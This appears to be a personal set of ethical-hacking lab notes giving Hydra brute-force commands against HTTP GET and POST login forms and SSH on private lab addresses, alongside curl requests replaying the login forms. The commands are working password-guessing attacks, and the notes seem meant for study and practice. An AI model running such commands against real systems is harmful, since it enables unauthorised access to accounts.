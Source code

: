 # EH-Notes

## Brute Force
### Hydra
#### HTTP Attacks
##### GET Form
`hydra -l admin -P /usr/share/wordlists/john.lst 'http-get-form://192.168.57.132/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low:F=Username and/or password incorrect'`


`curl 'http://192.168.57.132/vulnerabilities/brute/?username=admin&password=admin&Login=Login#' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Referer: http://192.168.57.132/vulnerabilities/brute/' -H 'Cookie: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low' -H 'Upgrade-Insecure-Requests: 1'`

##### POST Form

`hydra -l admin -P /usr/share/wordlists/john.lst http-post-form://192.168.57.132/login.php:"username=^USER^&password=^PASS^&Login=Login":"Login failed"`

`curl 'http://192.168.57.132/login.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://192.168.57.132' -H 'Connection: keep-alive' -H 'Referer: http://192.168.57.132/login.php' -H 'Cookie: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'username=admin&password=admin&Login=Login'`

##### SSH 
`hydra -l root -P /home/kali/tools/pass.txt 192.168.57.131 ssh -t 4`
